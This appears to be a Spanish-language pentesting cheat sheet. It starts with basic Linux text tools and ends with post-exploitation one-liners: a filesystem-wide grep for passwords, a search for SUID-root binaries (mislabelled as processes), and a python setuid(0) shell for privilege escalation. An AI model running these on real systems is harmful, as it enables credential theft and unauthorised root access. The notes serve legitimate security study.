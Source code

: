 # Comandos

# Operaciones con cadenas de texto

Búsqueda recursiva(a través de los directorios) de una cadena de texto

```bash
grep -r "Cadena de texto"
```

**sed** es un editor de streams, útil para el intercambio  de letras o palabras

```bash
kali@kali:~$echo "I need to try hard" | sed 's/hard/harder/'
I need to try harder
```

**cut** permite extraer una sección de texto, la opción **-f** permite elegir un campo(columna) y **-d** indicar un delimitador.

```bash
kali@kali:~$cut -d ":" -f 1 /etc/passwd
root
daemon
bin
sys
sync
games
...
```

**awk** es un lenguaje de programación para el procesamiento de texto. La opción **-F** es un separador de campos y el subcomando **print** imprime el resultado

```bash
kali@kali:~$echo "hello::there::friend" | awk -F "::" '{print $1, $3}'
hello friend
```

Tip: con el comando `tr -d '\n'` se pueden eliminar los saltos de línea de una salida 

### Buscar passwords

`grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null`

### Buscar procesos que se ejecutan como root

`find / -uid 0 -perm -4000 -type f 2>/dev/null`

### Elevación de privilegios cuando python se ejecuta como root

`python3.7 -c 'import os; os.setuid(0); os.system("/bin/sh")’`